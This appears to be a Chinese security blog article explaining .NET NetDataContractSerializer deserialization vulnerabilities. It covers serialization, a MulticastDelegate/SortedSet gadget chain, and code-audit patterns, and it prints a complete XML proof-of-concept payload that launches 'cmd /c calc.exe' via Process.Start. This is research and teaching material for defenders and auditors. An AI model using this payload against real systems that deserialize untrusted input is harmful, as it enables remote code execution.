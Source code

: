 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247484525&idx=1&sn=e6570b210cac88b4cdda2edd5a9805a0&chksm=fa5aaa80cd2d2396f68d3c83365f318c5614a596edce45c0fa611c84c4e5190abe5b59439fa6#rd)

一、前言
----

**NetDataContractSerializer** 和 DataContractSerializer 一样用于序列化和反序列化 Windows Communication Foundation (WCF) 消息中发送的数据。两者 之间存在一个重要区别：NetDataContractSerializer 包含了 CLR，通过 CLR 类型添加额外信息并保存引用来支持类型精确，而 DataContractSerializer 则不包含。 因此，只有在序列化和反序列化端使用相同的 CLR 类型时，才能使用 NetDataContractSerializer。若要序列化对象使用 WriteObject 或者 Serialize 方法，若要反序列化 XML 流使用 **ReadObject** 或者 **Deserialize** 方法。在某些场景下读取了恶意的 XML 流就会造成反序列化漏洞，从而实现远程 RCE 攻击，本文笔者从原理和代码审计的视角做了相关介绍和复现。

二、序列化
-----

使用 WriteObject 或者 Serialize 可以非常方便的实现. NET 对象与 XML 数据之间的转化，注意 NetDataContractSerializer 包含了程序集的名字和被序列化类型的类型。这些额外信息可以用来将 XML 反序列化成特殊类型，允许相同类型可以在客户端和服务端同时使用。另外的信息是 z:Id 属性在不同的元素上意义是不同的。这个用来处理引用类型以及当 XML 被反序列化时是否引用可以保留，最后的结论是这个输出相比 DataContractSerializer 的输出包含了更多信息。下面通过一个实例来说明问题，首先定义 TestClass 对象。

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujt6fNqZPrn74mU9eRKS9uVc73jdC67qYHnjFO6pibonU56MtpClz3QiapA/640?wx_fmt=png)

定义了三个成员，并实现了一个静态方法 ClassMethod 启动进程。 序列化通过创建对象实例分别给成员赋值

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtkJKZDJKqpglWDFCmK1LiaLsvXY48POEZcWqURErsTOXdzLVF2kViaficw/640?wx_fmt=png)

笔者使用 Serialize 得到序列化 TestClass 类后的 xml 数据

<TestClassz:Id="1"z:Type="WpfApp1.TestClass"z:Assembly="WpfApp1,Version=1.0.0.0, Culture=neutral, PublicKeyToken=null"xmlns="http://schemas.datacontract.org/2004/07/WpfApp1"xmlns:i="http://www.w3.org/2001/XMLSchema-instance"xmlns:z="http://schemas.microsoft.com/2003/10/Serialization/"><age>18</age><classnamez:Id="2">360</classname><namez:Id="3">Ivan1ee</name></TestClass>

三、反序列化
------

**3.1、反序列化用法**
--------------

NetDataContractSerializer 类反序列过程是将 XML 流转换为对象，通过创建一个新对象的方式调用 ReadObject 多个重载方法或 Serialize 方法实现的，查看定义得知继承自 **XmlObjectSerializer** 抽象类、**IFormatter** 接口

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujt6vTHkQVXC6JO1YZ9kEjhpQ8A32yckicfQTmtqfs5QniciakwVJQeQiapLw/640?wx_fmt=png)

NetDataContractSerializer 类实现了 XmlObjectSerializer 抽象类中的 WriteObject、ReadObject 方法，也实现了 IFormatter 中定义的方法。

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtpD6rkm82nKTBWFUxDicWCbOlvky3K6n4avtH7ibLjrRAPUGLFFH7iczmA/640?wx_fmt=png)

笔者通过创建新对象的方式调用 Deserialize 方法实现的具体实现代码可参考以下

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtypyczaoYoRDj6WrkvW7ByJ4UkVDlM84ROnmC8freEupgt1x7E0M0FQ/640?wx_fmt=png)

其实在 Deserialize 方法内也是调用了 ReadObject 方法反序列化的

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtd25Bicic8gQhqXSMAFHUuvFzXMUPfwQNscicsTvJ9pJDvkMxqjfJibQJmg/640?wx_fmt=png)

反序列化后得到对象的属性，打印输出当前成员 Name 的值。

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtloIx9po88XibysELk7IwulYxe1wyb3tTn5gmxb4PeXTaicTsRufttibibQ/640?wx_fmt=png)

**3.2、攻击向量—MulticastDelegate**
------------------------------

多路广播委托（MulticastDelegate）继承自 Delegate，其调用列表中可以拥有多个元素的委托，实际上所有委托类型都派生自 MulticastDelegate。MulticastDelegate 类的_invocationList 字段在构造委托链时会引用委托数组，但为了取得对委托链更多的控制就得使用 GetInvocationList 方法，它是具有一个带有链接的委托列表，在对委托实例进行调用的时候，将按列表中的委托顺序进行同步调用，那么如何将 calc.exe 添加到 GetInvocationList 列表方法？首先先看 Comparison<T> 类，它用于位于命令空间 System.Collections.Generic，定义如下

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtXg6HyPkRSB4ytOy0OHuTws70Yv1FtgKiau8RjBl9qR1BkX7oiaAucpKg/640?wx_fmt=png)

Comparison 类返回委托，再使用 Delegate 或者 MulticastDelegate 类的公共静态方法 Combine 将委托添加到链中作为 Comparison 的类型比较器

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtcc7lOmLxFj51jHRrxQfufTmKHm7CyTKncia84PFvGOU7eGjf27um25w/640?wx_fmt=png)

使用 Comparer<T> 的静态方法 Create 创建比较器，比较器对象在. NET 集合类中使用的频率较多，也具备了定制的反序列化功能，这里选择 SortedSet<T > 类，在反序列化的时内部 Comparer 对象重构了集合的排序。

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtFNZURDJpx0AyV7icmcM3HUA3yao3ib7V79x9126wicLjfbytjWfFyzVibw/640?wx_fmt=png)

多路广播委托的调用列表 GetInvocationList 方法在内部构造并初始化一个数组，让它的每个元素都引用链中的一个委托，然后返回对该数组的引用，下面代码修改了私有字段_InvocationList 并用泛型委托 Func 返回 Process 类。

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtIXB9ReZIwaRHNvPZ7iaFicd5mJU4Ls8dFelOleoP2zp7QVrNWszKbtiaQ/640?wx_fmt=png)

最后传入攻击载荷后得到完整序列化后的 poc，如下

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtg27zoiaBhgutpHEibcbkenwLas4TzT8M8vb3LswGJ6Bc5Zu4ZYicmX14A/640?wx_fmt=png)

四、代码审计
------

**4.1、Deserialize**
-------------------

从代码审计的角度只需找到可控的 Path 路径就可以被反序列化，例如以下场景：

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujthTyI4IUNkzvhTRW8wJuwuIyt5pgbqWVichMcEny3v3ibksg3zzyCf0nA/640?wx_fmt=png)

**4.2、ReadObject**
------------------

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtic6icKDPBEt7IHOBicw5NxAiaMTtEUJXfZK8EMDOgSA3ib4GkL4ibSHichWoA/640?wx_fmt=png)

上面两种方式都是很常见的，需要重点关注。

五、复盘
----

1.    代码中实现读取本地文件内容

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujteaL61DaTPyIklKat9eky9TOVD0ZZldu4q3LZpPVk305tCXOAT03icmA/640?wx_fmt=png)

2.    传递 poc xml，弹出计算器网页返回 200

<ArrayOfstringz:Id="1"z:Type="System.Collections.Generic.SortedSet`1[[System.String,mscorlib, Version=4.0.0.0, Culture=neutral,PublicKeyToken=b77a5c561934e089]]"z:Assembly="System,Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"xmlns="http://schemas.microsoft.com/2003/10/Serialization/Arrays"xmlns:i="http://www.w3.org/2001/XMLSchema-instance"xmlns:x="http://www.w3.org/2001/XMLSchema"xmlns:z="http://schemas.microsoft.com/2003/10/Serialization/"><Countz:Id="2"z:Type="System.Int32"z:Assembly="0"xmlns="">2</Count><Comparerz:Id="3"z:Type="System.Collections.Generic.ComparisonComparer`1[[System.String,mscorlib, Version=4.0.0.0, Culture=neutral,PublicKeyToken=b77a5c561934e089]]"z:Assembly="0"xmlns=""><_comparisonz:Id="4"z:FactoryType="a:DelegateSerializationHolder"z:Type="System.DelegateSerializationHolder"z:Assembly="0"xmlns="http://schemas.datacontract.org/2004/07/System.Collections.Generic"xmlns:a="http://schemas.datacontract.org/2004/07/System"><Delegatez:Id="5"z:Type="System.DelegateSerializationHolder+DelegateEntry"z:Assembly="0"xmlns=""><a:assemblyz:Id="6">mscorlib, Version=4.0.0.0,Culture=neutral, PublicKeyToken=b77a5c561934e089</a:assembly><a:delegateEntryz:Id="7"><a:assemblyz:Ref="6"i:nil="true"/><a:delegateEntryi:nil="true"/><a:methodNamez:Id="8">Compare</a:methodName><a:targeti:nil="true"/><a:targetTypeAssemblyz:Ref="6"i:nil="true"/><a:targetTypeNamez:Id="9">System.String</a:targetTypeName><a:typez:Id="10">System.Comparison`1[[System.String,mscorlib, Version=4.0.0.0, Culture=neutral,PublicKeyToken=b77a5c561934e089]]</a:type></a:delegateEntry><a:methodNamez:Id="11">Start</a:methodName><a:targeti:nil="true"/><a:targetTypeAssemblyz:Id="12">System, Version=4.0.0.0, Culture=neutral,PublicKeyToken=b77a5c561934e089</a:targetTypeAssembly><a:targetTypeNamez:Id="13">System.Diagnostics.Process</a:targetTypeName><a:typez:Id="14">System.Func`3[[System.String,mscorlib, Version=4.0.0.0, Culture=neutral,PublicKeyToken=b77a5c561934e089],[System.String, mscorlib, Version=4.0.0.0,Culture=neutral, PublicKeyToken=b77a5c561934e089],[System.Diagnostics.Process,System, Version=4.0.0.0, Culture=neutral,PublicKeyToken=b77a5c561934e089]]</a:type></Delegate><method0z:Id="15"z:FactoryType="b:MemberInfoSerializationHolder"z:Type="System.Reflection.MemberInfoSerializationHolder"z:Assembly="0"xmlns=""xmlns:b="http://schemas.datacontract.org/2004/07/System.Reflection"><Namez:Ref="11"i:nil="true"/><AssemblyNamez:Ref="12"i:nil="true"/><ClassNamez:Ref="13"i:nil="true"/><Signaturez:Id="16"z:Type="System.String"z:Assembly="0">System.Diagnostics.Process Start(System.String,System.String)</Signature><Signature2z:Id="17"z:Type="System.String"z:Assembly="0">System.Diagnostics.ProcessStart(System.String, System.String)</Signature2><MemberTypez:Id="18"z:Type="System.Int32"z:Assembly="0">8</MemberType><GenericArgumentsi:nil="true"/></method0><method1z:Id="19"z:FactoryType="b:MemberInfoSerializationHolder"z:Type="System.Reflection.MemberInfoSerializationHolder"z:Assembly="0"xmlns=""xmlns:b="http://schemas.datacontract.org/2004/07/System.Reflection"><Namez:Ref="8"i:nil="true"/><AssemblyNamez:Ref="6"i:nil="true"/><ClassNamez:Ref="9"i:nil="true"/><Signaturez:Id="20"z:Type="System.String"z:Assembly="0">Int32 Compare(System.String, System.String)</Signature><Signature2z:Id="21"z:Type="System.String"z:Assembly="0">System.Int32 Compare(System.String,System.String)</Signature2><MemberTypez:Id="22"z:Type="System.Int32"z:Assembly="0">8</MemberType><GenericArgumentsi:nil="true"/></method1></_comparison></Comparer><Versionz:Id="23"z:Type="System.Int32"z:Assembly="0"xmlns="">2</Version><Itemsz:Id="24"z:Type="System.String[]"z:Assembly="0"z:Size="2"xmlns=""><stringz:Id="25"xmlns="http://schemas.microsoft.com/2003/10/Serialization/Arrays">/c calc.exe</string><stringz:Id="26"xmlns="http://schemas.microsoft.com/2003/10/Serialization/Arrays">cmd</string></Items></ArrayOfstring>

最后配上动态图演示

![](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1Y9OfuqC5DnAlnblnF3gTujtH9uVxRBiaHRQKyZjF53CEsMsV9z60qkriavAjU57anFGptdRbXgcxV4Q/640?wx_fmt=gif)  

六、总结
----

NetDataContractSerializer 序列化功能输出的信息更多，因为性能等原因不及 DataContractSerializer，所以在 WCF 开发中用的场景并不太多，但是因为它无需传入类型解析器所以相对来说更容易触发反序列化漏洞。最后. NET 反序列化系列课程笔者会同步到 https://github.com/Ivan1ee/、https://ivan1ee.gitbook.io/，后续笔者将陆续推出高质量的. NET 反序列化漏洞文章，欢迎大伙持续关注，交流，更多的. NET 安全和技巧可关注实验室公众号。